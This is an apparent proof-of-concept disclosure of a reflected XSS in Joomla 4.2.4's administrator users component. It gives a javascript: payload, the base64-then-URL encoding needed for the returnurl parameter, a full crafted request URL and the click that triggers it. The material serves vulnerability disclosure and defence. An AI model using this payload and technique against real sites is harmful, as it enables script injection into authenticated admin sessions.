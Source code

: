 Vulnerability: Reflected XSS
Payload: javascript:alert(1)//
Action to trigger: Click cancel button
Note: The version and user below are what was used.  Other users and versions may be affected.
Note: The payload must be base64encoded and then url encoded.
Note: The user_id parameter may require a valid value
Version: ‎4.2.4

http://192.168.124.216/administrator/index.php?option=com_users&task=method.add&method=webauthn&returnurl=%61%6d%46%32%59%58%4e%6a%63%6d%6c%77%64%44%70%68%62%47%56%79%64%43%67%78%4b%53%38%76&user_id=951

Authenticated: Yes
User: Admin
Vulnerable Parameter: returnurl


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/Joomla_4.2.4_XSS_via_returnurl.gif)
